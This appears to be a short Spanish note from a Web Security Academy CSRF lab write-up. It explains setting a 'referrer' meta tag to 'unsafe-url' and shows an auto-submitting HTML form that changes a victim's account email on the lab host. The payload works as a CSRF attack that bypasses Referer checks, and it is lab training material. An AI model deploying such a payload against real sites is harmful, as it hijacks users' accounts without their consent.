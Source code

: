 ![](/img2/Pasted%20image%2020250802223936.png)

> Para que la petición incluya la url entera en la cabecera 'Referer', podemos añadir la etiqueta 'meta' cambiando el contenido a 'unsafe-url'.

- Injection

```
File: /https://0a1c00180434b5818050036a000e0058.web-security-academy.net
```

```html
<meta name="referrer" content="unsafe-url">

<form class="login-form" name="change-email-form" action="https://0a1c00180434b5818050036a000e0058.web-security-academy.net/my-account/change-email" method="POST">
    <input  type="hidden" name="email" value="csrf@csrf.com">
</form>

<script>
    document.forms[0].submit();
</script>
```